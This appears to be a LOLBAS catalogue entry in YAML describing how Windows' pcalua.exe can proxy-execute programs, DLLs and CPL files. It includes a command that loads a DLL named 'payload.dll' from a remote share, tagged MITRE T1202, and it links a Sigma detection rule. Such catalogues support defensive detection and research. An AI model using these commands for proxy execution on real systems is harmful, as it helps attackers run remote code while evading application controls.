 ```yaml
---
Name: Pcalua.exe
Description: Program Compatibility Assistant
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: pcalua.exe -a calc.exe
    Description: Open the target .EXE using the Program Compatibility Assistant.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: pcalua.exe -a \\server\payload.dll
    Description: Open the target .DLL file with the Program Compatibilty Assistant.
    Usecase: Proxy execution of remote dll file
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
    Description: Open the target .CPL file with the Program Compatibility Assistant.
    Usecase: Execution of CPL files
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\pcalua.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_pcalua.yml
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/912659279806640128
Acknowledgement:
  - Person: Kyle Hanslovan
    Handle: '@kylehanslovan'
  - Person: Fab
    Handle: '@0rbz_'
---
```

